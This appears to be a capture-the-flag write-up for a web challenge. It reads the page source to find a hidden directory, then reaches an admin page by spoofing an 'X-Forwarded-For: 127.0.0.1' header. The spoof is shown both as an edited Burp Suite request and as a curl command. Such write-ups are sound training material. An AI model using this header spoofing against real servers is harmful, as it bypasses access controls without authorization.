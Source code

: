 - all we can find on the main webpage is an image; (that is also a hint, see below)

- checking the page source, we can see the `src` code of the image and a long binary string.

- the trick here is that the content is formatted on a single line ; copy and paste that somewhere. 

- at the end, there's a `HTML comment` that reveals another directory on the webserver.

- alright, we know the drill. this time the hint is `you're not local`. By making a reference to the photo displayed on the first page, this means that the request is not coming from the local address, which is `127.0.0.1`.

- To trick the webserver into thinking that we're making the request from `127.0.0.1`, we have two options I'm aware of :


1. Capture the request in burp suite. It should look like this:

```
GET /admin.php HTTP/1.1
Host: 35.198.135.192:30344
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- Under the `Host` line, add `X-Forwarded-For: 127.0.0.1`. The final request should look like this

```
GET /admin.php HTTP/1.1
Host: 35.198.135.192:30344
X-Forwarded-For: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- Then forward the request. You're in, Neo :) 

2. The second method is a bit quicker, and it's just using the same parameter inside the header, but by using `curl`

```
curl -XGET http://<IP:port>/{redacted}.php -H 'X-Forwarded-For: 127.0.0.1'
```

